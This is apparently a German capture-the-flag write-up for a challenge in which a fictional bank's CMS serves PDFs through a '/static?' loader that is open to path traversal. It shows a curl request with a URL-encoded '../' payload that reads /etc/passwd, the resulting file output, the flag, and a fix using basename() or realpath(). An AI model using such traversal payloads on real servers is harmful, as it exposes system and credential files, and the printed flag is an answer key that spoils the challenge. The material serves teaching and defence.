


# bankdirect upupair

## Up Up In The Air

Die beliebte Internet-Filiale der `bankdirect DBH` bietet ihren Kund:innen vielfältige Informationen an. Die informativen Seiten der Bank laden zum Stöbern ein und verraten mehr über die Produkte, Filialen, Service-Angebote, Impressum, Datenschutz, Einwilligungen und AGBs.



Das Content Management System (CMS) ist leider sehr schlecht programmiert und lässt Wünsche offen.

## Hints

Die verschiedenen Seiten geben eine Vielzahl an Informationen aus. Sobald die URL-Struktur näher betrachtet wird, ist ein entscheidender Hinweis zu erkennen:



## Lösungsvorschlag

Die Challenge erfordert, dass die URLs genau analysiert werden. Sobald verstanden wurde, dass PDF-Downloads über den Seitenaufruf `/static?$FILE` erfolgen, können die Parameter der Dateipfade inspiziert werden.
Dies kann man ausnutzen, um vertrauliche Dateien auszugeben.


### Mögliches Vorgehen
1. Per Bruteforce / Ausprobieren URLs testen,
1. Die `index.php` als Datei laden und an den zugrundeliegenden PHP-Code kommen (Aufruf: `/static?index.php`),
1. Begreifen, dass der Pfad url-kodiert[^1] sein muss,
1. Als Datei die /etc/passwd aufrufen.

Beispiel eines erfolgreichen Aufrufs der Datei `/etc/passwd` mit der Flag:
```console
$ curl -s  "http://127.0.0.1/static?..%2F..%2F..%2Fetc%2Fpasswd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
dbh:x:1000:1000:DBH{dee293c3d4b666030f0e50c2d8d38e2ce2b14837}:/home/dbh:/bin/sh
```

Die Flag ist **DBH{dee293c3d4b666030f0e50c2d8d38e2ce2b14837}**

# Fix

_Path Traversal_ ist ein uraltes aber immer noch relevantes Sicherheitsproblem. In unserem Beispiel werden statische PDF-Dateien über eine Loader ausgeliefert, der ein Abholen der Dokumente aus einer Datenbank, Cloud-Filestorage oder anderem Subsystem simuliert. 

In unserem Beispiel könnte die Funktionen wie  [basename()](https://www.php.net/manual/de/function.basename.php) oder [realpath()](https://www.php.net/manual/de/function.realpath.php) genutzt werden, damit übergebene Parameter nur die angeforderte Datei enthält (statt `../../../file.pdf` nur `file.pdf`).

## Flag
```
DBH{dee293c3d4b666030f0e50c2d8d38e2ce2b14837}
```

## Footnotes

[^1]: siehe https://de.wikipedia.org/wiki/URL-Encoding